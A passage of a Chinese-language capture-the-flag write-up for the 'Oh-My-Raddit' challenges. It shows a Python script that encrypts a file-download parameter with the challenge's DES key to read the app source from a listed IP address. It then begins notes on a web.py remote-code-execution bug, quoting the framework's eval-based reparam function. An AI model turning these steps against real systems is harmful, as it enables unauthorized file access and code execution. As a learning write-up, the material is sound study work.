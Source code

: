 于是猜想这里可能是个任意文件下载，然后加密数据`m=d&f=app.py`：

```python
from Crypto.Cipher import DES
ENCRPYTION_KEY = 'ldgonaro'

def encrypt(s):
    length = DES.block_size - (len(s) % DES.block_size)
    s = s + chr(length)*length

    cipher = DES.new(ENCRPYTION_KEY, DES.MODE_ECB)
    return cipher.encrypt(s).encode('hex')

print(encrypt('m=d&f=app.py'))

#e2272b36277c708bc21066647bc214b8
```

访问`http://13.115.255.46/?s=e2272b36277c708bc21066647bc214b8`成功获取到题目源码。源码中有密钥。



###  Oh-My-Raddit-2 学习笔记

题目提示需要getshell,拿到代码就可以代码审计了。

主要是利用了web.py的一个任意代码执行的漏洞，参考链接[https://securityetalii.es/2014/11/08/remote-code-execution-in-web-py-framework/](https://securityetalii.es/2014/11/08/remote-code-execution-in-web-py-framework/)，下面自己的分析一下这个漏洞的成因。

漏洞主要存在web.py框架的db.py文件中：

代码如下：

```python
def reparam(string_, dictionary): 
    """
    Takes a string and a dictionary and interpolates the string
    using values from the dictionary. Returns an `SQLQuery` for the result.

        >>> reparam("s = $s", dict(s=True))
        <sql: "s = 't'">
        >>> reparam("s IN $s", dict(s=[1, 2]))
        <sql: 's IN (1, 2)'>
    """
    dictionary = dictionary.copy() # eval mucks with it
    # disable builtins to avoid risk for remote code exection.
    dictionary['__builtins__'] = object()
    vals = []
    result = []
    for live, chunk in _interpolate(string_):
        if live:
            v = eval(chunk, dictionary)
            result.append(sqlquote(v))
        else: 
            result.append(chunk)
    return SQLQuery.join(result, '')
```
